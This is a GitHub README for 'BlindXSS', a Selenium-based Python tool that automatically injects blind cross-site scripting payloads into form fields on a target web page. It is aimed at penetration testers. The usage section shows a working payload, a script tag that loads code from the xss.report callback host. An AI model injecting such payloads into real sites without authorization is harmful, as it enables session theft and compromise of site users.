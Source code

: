 # BlindXSS - Automated Blind XSS Testing Tool

```
__________.__  .__            .___ ____  ___  _________ _________
\______   \  | |__| ____    __| _/ \   \/  / /   _____//   _____/
 |    |  _/  | |  |/    \  / __ |   \     /  \_____  \ \_____  \ 
 |    |   \  |_|  |   |  \/ /_/ |   /     \  /        \/        \
 |______  /____/__|___|  /\____ |  /___/\  \/_______  /_______  /
        \/             \/      \/        \_/        \/        \/ 

made by @hghost010
```

## 🎯 Description

BlindXSS is an automated web security testing tool designed to identify potential blind Cross-Site Scripting (XSS) vulnerabilities. The tool systematically injects XSS payloads into form inputs and interactive elements on web pages to help security researchers and penetration testers identify potential security weaknesses.

## ✨ Features

- **Automated Form Detection**: Automatically finds and tests input fields, textareas, select elements, and contenteditable elements
- **Comprehensive Testing**: Tests various HTML input types and interactive elements
- **Smart Navigation**: Handles form submissions and page redirections intelligently
- 
## 🔄 Immediate Updates (Next Few Days):

- Cookie Support - The main feature you mentioned for testing authenticated areas
- Enhanced Configuration - More customization options
- Improved Reporting - Better output and logging

## 🛠️ Requirements

### System Requirements
- Python 3.7+
- Chrome/Chromium browser
- Internet connection

### Python Dependencies
```
selenium>=4.0.0
webdriver-manager>=3.8.0
colorama>=0.4.4
```

## 📦 Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/Hghost0x00/Blind_XSS.git
   cd Blind_XSS
   ```

2. **Install Python dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Verify Chrome/Chromium installation:**
   - The tool uses webdriver-manager to automatically download and manage ChromeDriver
   - Ensure Chrome or Chromium is installed on your system

## 🚀 Usage

1. **Run the tool:**
   ```bash
   python bxss.py
   ```

2. **Enter target URL:**
   ```
   Enter the target URL: https://example.com/login
   ```

3. **Provide XSS payload:**

Enter your blind XSS payload: '"><script src=https://xss.report/c/__your_username__></script>

Tip: Using `xss.report` payloads is one of the easiest ways to use this tool. Simply create a free account and use your personalized payload.

4. **Monitor the testing process:**
   - The tool will automatically find and test all interactive elements


## 🐛 Troubleshooting

### Common Issues

**ChromeDriver not found:**
- Solution: The webdriver-manager should handle this automatically. If issues persist, manually install ChromeDriver.

**Permission denied errors:**
- Solution: Run with appropriate permissions or check Chrome installation.

**Timeout errors:**
- Solution: Increase the timeout values in the script for slower websites.



## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- Created by [@hghost010](https://x.com/hghost010)
- The Team : [AnonKryptiQuz](https://github.com/AnonKryptiQuz) [1hehaq](https://github.com/1hehaq) [Naho666](https://github.com/Naho666) [Coffinxp](https://github.com/coffinxp)
- Built with Selenium WebDriver
- Uses webdriver-manager for Chrome driver management

## ⭐ Support

If you find this tool helpful, please consider:
- ⭐ Starring the repository
- 🐛 Reporting bugs and issues
- 💡 Suggesting new features
- ☕ Buy me a coffee: 2CZhBKWbacJyVs7k7BJiC3ay4tq3HsPtUysMeSqjRRd4 (Solana)
